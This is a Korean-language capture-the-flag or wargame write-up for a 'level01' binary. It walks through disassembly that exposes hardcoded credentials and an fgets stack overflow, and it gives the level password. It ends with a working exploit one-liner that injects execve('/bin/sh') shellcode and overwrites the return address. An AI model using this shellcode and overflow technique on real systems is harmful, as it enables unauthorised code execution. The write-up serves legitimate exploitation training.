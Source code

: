 > Password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

프로그램을 실행시켜보면 아이디를 물어보는 것을 볼 수 있다.

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: someone
verifying username....

nope, incorrect username...

```

어셈블리 코드를 보면 계정이름과 비밀번호를 각각 verify_user_name, verify_user_pass 에서 확인하게 되어있고 비밀번호와 계정이름은 하드코딩되어있다.

```
08048464 <verify_user_name>:
 8048464:	55                   	push   %ebp
 8048465:	89 e5                	mov    %esp,%ebp
 8048467:	57                   	push   %edi
 8048468:	56                   	push   %esi
 8048469:	83 ec 10             	sub    $0x10,%esp
 804846c:	c7 04 24 90 86 04 08 	movl   $0x8048690,(%esp)
 8048473:	e8 08 ff ff ff       	call   8048380 <puts@plt>
 8048478:	ba 40 a0 04 08       	mov    $0x804a040,%edx
 804847d:	b8 a8 86 04 08       	mov    $0x80486a8 <"dat_wil">,%eax
 8048482:	b9 07 00 00 00       	mov    $0x7,%ecx
 8048487:	89 d6                	mov    %edx,%esi
 8048489:	89 c7                	mov    %eax,%edi
 804848b:	f3 a6                	repz cmpsb %es:(%edi),%ds:(%esi)
 [...]
```

```
080484a3 <verify_user_pass>:
 80484a3:	55                   	push   %ebp
 80484a4:	89 e5                	mov    %esp,%ebp
 80484a6:	57                   	push   %edi
 80484a7:	56                   	push   %esi
 80484a8:	8b 45 08             	mov    0x8(%ebp),%eax
 80484ab:	89 c2                	mov    %eax,%edx
 80484ad:	b8 b0 86 04 08       	mov    $0x80486b0 <admin>,%eax
 80484b2:	b9 05 00 00 00       	mov    $0x5,%ecx
 80484b7:	89 d6                	mov    %edx,%esi
 80484b9:	89 c7                	mov    %eax,%edi
 80484bb:	f3 a6                	repz  cmpsb %es:(%edi),%ds:(%esi)
 [...]
```

리버싱하여 획득한 username, userpass를 입력해보자.

```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
admin
nope, incorrect password...

```

이상하게도 비밀번호가 틀렸다고 나온다.

비밀번호 확인 로직을 자세히 들여다보면

```
8048580:	e8 1e ff ff ff       	call   80484a3 <verify_user_pass>
 8048585:	89 44 24 5c          	mov    %eax,0x5c(%esp)
 8048589:	83 7c 24 5c 00       	cmpl   $0x0,0x5c(%esp)
 804858e:	74 07                	je     8048597 <main+0xc7>
 8048590:	83 7c 24 5c 00       	cmpl   $0x0,0x5c(%esp)
 8048595:	74 13                	je     80485aa <main+0xda>
 8048597:	c7 04 24 1e 87 04 08 	movl   $0x804871e,(%esp)
 804859e:	e8 dd fd ff ff       	call   8048380 <puts@plt>
 80485a3:	b8 01 00 00 00       	mov    $0x1,%eax
 80485a8:	eb 05                	jmp    80485af <main+0xdf>
 80485aa:	b8 00 00 00 00       	mov    $0x0,%eax
 80485af:	8d 65 f8             	lea    -0x8(%ebp),%esp
 80485b2:	5b                   	pop    %ebx
 80485b3:	5f                   	pop    %edi
 80485b4:	5d                   	pop    %ebp
 80485b5:	c3                   	ret    
```

이상하게도 verify_user_pass함수의 결과와 상관 없이 nope, incorrect password... 문자열을 출력하도록 되어 있는것을 볼 수 있다.

다시 돌아가서 user_name / user_pass를 입력 받는 부분을 더 자세히 들여다보자.

```
 80484d8:	83 ec 60             	sub    $0x60,%esp
[...]
 8048561:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048565:	c7 44 24 04 64 00 00 	movl   $0x64,0x4(%esp)
 804856c:	00 
 804856d:	8d 44 24 1c          	lea    0x1c(%esp),%eax
 8048571:	89 04 24             	mov    %eax,(%esp)
 8048574:	e8 f7 fd ff ff       	call   8048370 <fgets@plt>
```

분명 스택을 0x60만큼만 할당받았고, fgets의 시작 위치가 0x1c(%esp)이므로 fgets가 안전하게 값을 넣을 수 있는 최대 크기는 0x64 - 0x1c = 0x48이지만 0x64만큼 값을 쓰고 있다는 문제가 있다.

따라서 2번째 문자열 입력 부분에서 ebx + 0x4위치를 덮어써서 ret위치를 조작할 수 있다.

```bash
cat <(python -c 'print "dat_wil." + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 220 + "A" * 79 + "\x48\xa0\x04\x08",') - | ./level01
```

추가적으로 username은 전역 변수에 저장되고 userpass는 스택에 저장되므로 쉘코드의 손상 위험이 조금 더 적은 username쪽에 쉘코드를 넣었다.

username체크 로직에도 문자열 맨 앞부분만 비교하기 때문에 dat_wil뒤에 원하는 문자열을 삽입할 수 있었다.